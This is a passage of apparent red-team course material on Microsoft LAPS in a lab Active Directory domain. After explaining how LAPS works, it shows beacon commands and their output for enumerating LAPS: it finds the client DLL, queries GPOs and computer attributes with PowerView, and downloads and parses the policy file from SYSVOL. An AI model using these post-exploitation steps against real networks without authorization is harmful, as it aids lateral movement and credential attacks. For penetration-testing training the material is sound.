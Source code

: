 Organisations often have a build process for physical and virtual machines within their environment.  It's common that everything is built from the same "gold image" to ensure consistency and compliance.  However, these processes can result in every machine having the same password on accounts such as the local administrator.  If one machine and therefore the local administrator password hash is compromised, an attacker may be able to move laterally to every machine in the domain using the same set of credentials.

LAPS is a Microsoft solution for managing the credentials of a local administrator account on every machine, either the default RID 500 or a custom account.  It ensures that the password for each account is different, random, and automatically changed on a defined schedule.  Permission to request and reset the credentials can be delegated, which are also auditable.  Here is a quick summary of how LAPS works:

1. The Active Directory schema is extended and adds two new properties to computer objects, called _ms-Mcs-AdmPwd_ and _ms-Mcs-AdmPwdExpirationTime_.
2. By default, the DACL on ms-Mcs-AdmPwd only grants read access to Domain Admins.  Each computer object is given permission to update these properties on itself.
3. Rights to read AdmPwd can be delegated to other principals (users, groups etc), which is typically done at the OU level.
4. A new GPO template is installed, which is used to deploy the LAPS configuration to machines (different policies can be applied to different OUs).
5. The LAPS client is also installed on every machine (commonly distributed via GPO or a third-party software management solution).
6. When a machine performs a gpupdate, it will check the AdmPwdExpirationTime property on its own computer object in AD. If the time has elapsed, it will generate a new password (based on the LAPS policy) and sets it on the ms-Mcs-AdmPwd property.

There are a few methods to hunt for the presence of LAPS.  If it's applied to a machine that you have access to, AdmPwd.dll will be on disk.
```
beacon> run hostname
wkstn-2

beacon> ls C:\Program Files\LAPS\CSE

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 179kb    fil     05/05/2021 07:04:14   AdmPwd.dll
```
  

We could also search for GPOs that have "LAPS" or some other descriptive term in the name.
```
beacon> powershell Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

usncreated               : 25966
displayname              : LAPS
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{C6DC5466-785
                           A-11D2-84D0-00C04FB169F7}{942A8E4F-A261-11D1-A760-00C04FB9603F}][{D76B9641-3288-4F75-942D-08
                           7DE603E3EA}{D02B1F72-3407-48AE-BA88-E8213C6761F1}]
whenchanged              : 8/16/2022 12:39:45 PM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 26068
dscorepropagationdata    : {9/7/2022 1:05:58 PM, 1/1/1601 12:00:00 AM}
name                     : {2BE4337D-D231-4D23-A029-7B999885E659}
flags                    : 1
cn                       : {2BE4337D-D231-4D23-A029-7B999885E659}
gpcfilesyspath           : \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}
distinguishedname        : CN={2BE4337D-D231-4D23-A029-7B999885E659},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
whencreated              : 8/16/2022 12:20:45 PM
versionnumber            : 17
instancetype             : 4
objectguid               : bbe274cc-6fcc-4e17-8804-bdc0ae952515
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=cyberbotic,DC=io
```
  

As well as computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property).
```
beacon> powershell Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName

dnshostname              
-----------              
wkstn-2.dev.cyberbotic.io
web.dev.cyberbotic.io    
sql-2.dev.cyberbotic.io  
wkstn-1.dev.cyberbotic.io
```
  

If we locate the correct GPO, we can download the LAPS configuration from the gpcfilesyspath.
```
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 12:39:19   Applications
          dir     09/13/2022 15:38:58   Microsoft
          dir     08/16/2022 12:23:37   Preferences
          dir     08/16/2022 12:21:04   Scripts
 575b     fil     08/16/2022 12:22:23   comment.cmtx
 920b     fil     08/16/2022 12:22:23   Registry.pol

beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol
[*] started download of \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol (920 bytes)
[*] download of Registry.pol is complete
```
  

The `Parse-PolFile` cmdlet from the [GPRegistryPolicyParser](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.
```
PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordComplexity
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 3

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordLength
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 14

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PasswordAgeDays
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 30

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdminAccountName
ValueType   : REG_SZ
ValueLength : 20
ValueData   : LapsAdmin

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : AdmPwdEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 1

KeyName     : Software\Policies\Microsoft Services\AdmPwd
ValueName   : PwdExpirationProtectionEnabled
ValueType   : REG_DWORD
ValueLength : 4
ValueData   : 0
```
  

This tells us that:

- Password complexity is upper, lower and numbers.
- Password length is 14.
- Passwords are changed every 30 days.
- The LAPS managed account name is LapsAdmin.
- Password expiration protection is disabled.